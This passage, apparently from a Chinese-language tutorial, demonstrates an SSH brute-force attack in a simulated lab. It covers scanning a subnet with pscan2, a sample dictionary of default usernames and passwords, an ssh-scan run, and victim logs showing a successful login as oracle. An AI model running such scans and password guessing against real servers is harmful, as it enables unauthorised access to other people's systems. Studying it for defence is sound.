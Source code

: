 </div>
<p>扫描10.10.10 网段：</p>
<div>
<div>引用</div>
<div>$ ./pscan2 10.10 22 10<br>
# scanning:<br>
# pscan completed in 3 seconds. (found 2 ips)<br>
$ cat 10.10.10.pscan.22<br>
10.10.10.1<br>
10.10.10.10</div>
</div>
<p>可见，找到该网段中有两个IP打开了SSH服务。</p>
<p><strong>4、攻击特定IP的SSH服务</strong><br>
既然找到已打开SSH服务的机器IP，那就可以用ssh-scan 进行暴力破解了。破解的关键是字典文件pass_file ，该文件决定了攻击时间的长短和成功率。可以从网上获取一堆的字典，下面是我模拟的几个用户名和密码：</p>
<div>
<div>引用</div>
<div>$ cat pass_file<br>
upload upload<br>
root q1w2e3r4<br>
root qwer1234<br>
root qwer0987<br>
root poiu7890<br>
oracle oracle<br>
ftp ftp<br>
apache apache<br>
nagios nagios<br>
nginx nginx<br>
lighttpd lighttpd<br>
mysql mysql<br>
postfix postfix</div>
</div>
<p><strong>※ 千万不要忽视普通用户的登录，普通用户可通过一些root exploit 漏洞提升到root权限，届时，与通过root访问也没什么差别。</strong><br>
把上面通过pscan2得到的IP地址段，转存为mfu.txt文件，然后开始攻击：</p>
<div>
<div>引用</div>
<div>$ grep -v -w ’10.10.10.1′ 10.10.10.pscan.22 &gt; mfu.txt<br>
$ ./ssh-scan 100<br>
Toata dragostea mea pentru diavola!!!!!!</div>
</div>
<p>在被攻击端的安全日志中，会显示大量的尝试记录，类似：</p>
<div>
<div>引用</div>
<div>Jul  8 12:00:33 asianux3 sshd[2488]: Invalid user upload from 10.10.10.1<br>
Jul  8 12:00:33 asianux3 sshd[2489]: input_userauth_request: invalid user upload<br>
Jul  8 12:00:33 asianux3 sshd[2488]: pam_unix(sshd:auth): check pass; user unknown<br>
Jul  8 12:00:33 asianux3 sshd[2488]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=10.10.10.1<br>
Jul  8 12:00:33 asianux3 sshd[2488]: pam_succeed_if(sshd:auth): error retrieving information about user upload<br>
Jul  8 12:00:36 asianux3 sshd[2488]: Failed password for invalid user upload from 10.10.10.1 port 2000 ssh2<br>
Jul  8 12:00:36 asianux3 sshd[2489]: Received disconnect from 10.10.10.1: 11: Bye Bye<br>
……<br>
Jul  8 12:00:44 asianux3 sshd[2499]: Accepted password for oracle from 10.10.10.1 port 2005 ssh2<br>
Jul  8 12:00:44 asianux3 sshd[2499]: pam_unix(sshd:session): session opened for user oracle by (uid=0)</div>
</div>
<p>攻击的密度与您给ssh-scan提供的参数有关，参数越大，尝试越频繁。从上面的日志可看到，oracle用户尝试登录成功了。<br>